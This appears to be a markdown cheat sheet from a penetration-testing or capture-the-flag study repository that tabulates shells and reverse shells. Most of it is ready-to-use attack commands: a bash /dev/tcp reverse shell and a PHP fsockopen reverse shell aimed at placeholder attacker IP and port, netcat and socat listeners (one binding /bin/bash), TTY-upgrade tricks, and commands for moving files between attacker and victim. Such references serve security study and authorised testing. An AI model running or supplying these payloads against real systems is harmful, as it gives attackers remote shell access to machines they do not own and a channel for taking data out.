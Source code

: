 # Shells
## Shells and Reverse Shells Cheat Sheet
| **Topic**                   | **Description**                                                                                     | **Examples/Commands**                                                              |
|-----------------------------|-----------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------|
| **Shells**                  | Interfaces to interact with an operating system (e.g., command line).                              | Bash, Zsh, CMD, PowerShell                                                        |
| **Reverse Shell**           | A shell initiated by the target machine to connect back to the attacker's machine.                 | `nc -lvnp 4444` (listener), `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1` (payload)       |
| **How Reverse Shells Work** | Attacker sets up a listener, victim executes the payload, creating a connection back to the attacker.| `rlwrap nc -lvnp 4444` + victim payload                                           |
| **Where to Find Them**      | Reverse shell scripts are available on repositories like [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). | Python, Bash, PHP, and PowerShell scripts.                                        |
| **Most Used Shells**        | Common shells for basic interaction and exploitation.                                               | `bash`, `sh`, `cmd.exe`, `powershell.exe`, `/bin/zsh`                             |
| **Simple Reverse Shells**   | Lightweight and easy-to-execute payloads for basic connectivity.                                   | `php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'`         |
| **Advanced Shells**         | Feature-rich shells offering better usability and tools.                                           | PowerShell, socat, Python reverse shells.                                         |
| **`rlwrap`**                | A tool to wrap readline functionality for command-line utilities that lack it (e.g., netcat).      | `rlwrap nc -lvnp 4444`                                                            |
| **Netcat (nc)**             | A networking tool commonly used for setting up listeners and reverse shells.                       | `nc -lvnp <PORT>` (listener)                                                      |
| **Socat**                   | An advanced alternative to Netcat, supports encrypted connections and more protocols.              | `socat tcp-listen:<PORT>,reuseaddr,fork exec:/bin/bash`                           |
| **Upgrading a Shell**       | Converting a simple shell into a fully interactive TTY shell.                                      | `python3 -c 'import pty; pty.spawn("/bin/bash")'`                                  |
| **File Transfer with Shells**| Using shells to upload/download files between attacker and victim.                                | `wget <URL>`, `curl -O <URL>`, `nc -lvp <PORT> > file`                            |

---

## Common Shell Commands and Tips
| **Command**                                | **Purpose**                                                                       |
|--------------------------------------------|-----------------------------------------------------------------------------------|
| `python3 -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade to a fully interactive shell.                                      |
| `export TERM=xterm`                        | Fix terminal display issues in a simple shell.                                    |
| `CTRL + Z`                                 | Background the current shell process.                                             |
| `stty raw -echo` and `fg`                  | Fix line formatting issues when bringing a shell to the foreground.               |
| `rlwrap nc -lvnp <PORT>`                   | Use `rlwrap` for history and arrow key navigation in Netcat shells.               |
| `socat tcp-listen:<PORT>,reuseaddr,fork exec:/bin/bash` | Start an advanced reverse shell listener.                            |
| `php -r '...'`                             | Execute a PHP reverse shell payload.                                              |
